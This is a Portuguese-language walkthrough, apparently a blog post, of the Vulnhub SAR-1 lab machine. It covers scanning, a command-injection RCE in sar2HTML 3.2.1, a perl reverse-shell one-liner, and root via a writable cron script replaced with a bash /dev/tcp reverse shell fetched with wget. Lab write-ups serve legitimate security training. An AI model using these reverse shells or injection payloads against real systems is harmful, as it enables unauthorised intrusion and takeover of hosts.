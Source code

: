 ```yaml
---
title: Vulnhub - SAR-1
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xch4rli3.github.io/assets/img/Vulnhub/SAR-1/capa.png
---
```


Link da Maquina: <https://www.vulnhub.com/entry/sar-1,425/>



# Scan/Enumeracao


## Host Discovery


* Com o comando arp-scan vamos descobrir quais sao os hosts que estao up na rede

```bash
sudo arp-scan -I eth1 192.168.150.0/24
```

![](/assets/img/Vulnhub/SAR-1/host-discovery.png)


## Port Discovery


* Vamos descobrir as portas quqe estao abertas no alvo

```bash
sudo nmap -n -T5 -p- 192.168.150.114 
```

![](/assets/img/Vulnhub/SAR-1/port-discovery.png)




## Port Scan


* Vamos escanear a porta que esta aberta para descobrir qual o servico que esta rodando e qual a versao

```bash
sudo nmap -n -T5 -A -p 80 192.168.150.114
```

![](/assets/img/Vulnhub/SAR-1/port-scan.png)

> POrta 80: Apache httpd 2.4.29




# Exploracao


## Web


### Acessando a pagina pelo browser

* Na pagina principal da aplicacao temo a "Default Page" do Apache2

![](/assets/img/Vulnhub/SAR-1/apache1.png)




### Fuzzy de diretorios

* Rodando o gobuster para procurar por mais arquivos e diretorios

```bash
gobuster dir -u http://192.168.150.114 -w /usr/share/wordlists/dirb/big.txt -x php,txt
```

![](/assets/img/Vulnhub/SAR-1/gobuster1.png)




* Achamos dois arquivos, **phpinfo.php** e **robots.txt**. No phpinfo temos as informacoes de configuracao do Apache

![](/assets/img/Vulnhub/SAR-1/phpinfo.png)


* No outro arquivo robots temos uma palavra **sar2HTML**

![](/assets/img/Vulnhub/SAR-1/robots.png)




### sar2HTML


* Conseguimos acessar uma outra pagina web com a dica que recebemos no robots: http://192.168.150.114/sar2HTML/

![](/assets/img/Vulnhub/SAR-1/sar2HTML.png)


* Jogando no google o nome da aplicacao ja apareceram inumeros sites com a vulnerabilidade dessa aplicacao




* Entrando no site www.exploit-db.com e procurando por exploits para o **sarHTML versao 3.2.1** temos um para RCE. Inicialmente analisando o exploit, ele e feito em python e a principio consegue executar comando atraves da URL **"{url}/index.php?plot=;{cmd}"**

![](/assets/img/Vulnhub/SAR-1/exploit-db-sarHTML.png)




* Vamos baixa-lo, dar permissao de execucao para o script e executa-lo

![](/assets/img/Vulnhub/SAR-1/rce-sarHTML.png)

> 1 - Executamos o script com python3

> 2 - Inserimos a URL da aplicacao

> 3 - Inserimos o comando para ser executado no alvo


## RCE / Shell Reverso


* Agora vamos seguir os seguintes passos:

![](/assets/img/Vulnhub/SAR-1/shell-reverso.png)

> 1 - Deixar uma porta escutando na kali

> 2 - procurar com o [rbscheat](https://github.com/marciosouza20/rbscheat) um comando par nos enviar um shell em **perl**. Mas porque em perl? Testamos varios comandos ate termos sucesso com o comando em perl para hosts Linux que nao possuem /bin/sh. 

> 3 - `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.150.110:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

> 4 - Enviamos para o nosso alvo por meio do exploit

> 5 - E por fim recebemos o **SHELL REVERSO**!


## Melhorando o Shell


* Vamos melhorar o nosso shell reverso

```bash
script /dev/null
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![](/assets/img/Vulnhub/SAR-1/melhorando-shell.png)




# Escalando Privilegio


* Primeiramente procuramos por diretorios e arquivos com pesmissao de escrita. Procuramos tambem por binarios com SUID e listamos o que podemos executar como sudo

```bash
find / -type d -writable 2> /dev/null | fgrep -v proc
find / -type f -writable 2> /dev/null | fgrep -v proc
find / -perm -4000 2> /dev/null | fgrep -v proc
sudo -l
```


* Nao conseguimos achar nada de interessando inicialmente. Entao vamos tranferir o linpeas para o alvo

![](/assets/img/Vulnhub/SAR-1/transferindo-linpeas.png)




* Executamos o linpeas

![](/assets/img/Vulnhub/SAR-1/executamos-linpeas.png)


* Duas coisas chamaram antencao no resultado do linpeas. 

![](/assets/img/Vulnhub/SAR-1/crontab-1.png)

![](/assets/img/Vulnhub/SAR-1/crontab-2.png)

> A primeira coisa que nos chama atencao e uma tarefa agendada no crontab



![](/assets/img/Vulnhub/SAR-1/linpeas-out-1.png)

![](/assets/img/Vulnhub/SAR-1/linpeas-out-2.png)

> A segunda e que podemos escrever em um arquivo que esta no diretorio /var/spool/cron/crontabs 


* Verificando o **/etc/crontab** podemos observar que a tarefa se trata em executar um arquivo, **/var/www/html/finally.sh**

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)


* Ao verificar esse arquivo observamso que ele executa outro script **write.sh**, que esta no mesmo diretorio. Para a nossa alegria temos permissao de escrita no arquivo write.sh. 

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)




* Agora vamos criar um arquivo na nossa maquina kali com o nome "write.sh". 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.150.110/443 0<&1
```

![](/assets/img/Vulnhub/SAR-1/write-kali.png)


* Depois de ter feito o arquivo vamos levantar um servidor web com o python na nossa maquina, baixar ele no alvo e dar permissao total pra ele

```bash
wget 192.168.150.110/write.sh
chmod 777 write.sh
```

![](/assets/img/Vulnhub/SAR-1/write-alvo.png)


* Agora e so deixar a porta escutando na nossa maquina e qnd o spript for executado a proxima vez viraremos **ROOT**!




# ROOT


* **Pronto, agora somos ROOT!**

![](/assets/img/Vulnhub/SAR-1/root.png)


# Flag


* Conseguimos pegar a flag do **user.txt** e a **root.txt**

![](/assets/img/Vulnhub/SAR-1/flag-user.png)

![](/assets/img/Vulnhub/SAR-1/flag-root.png)
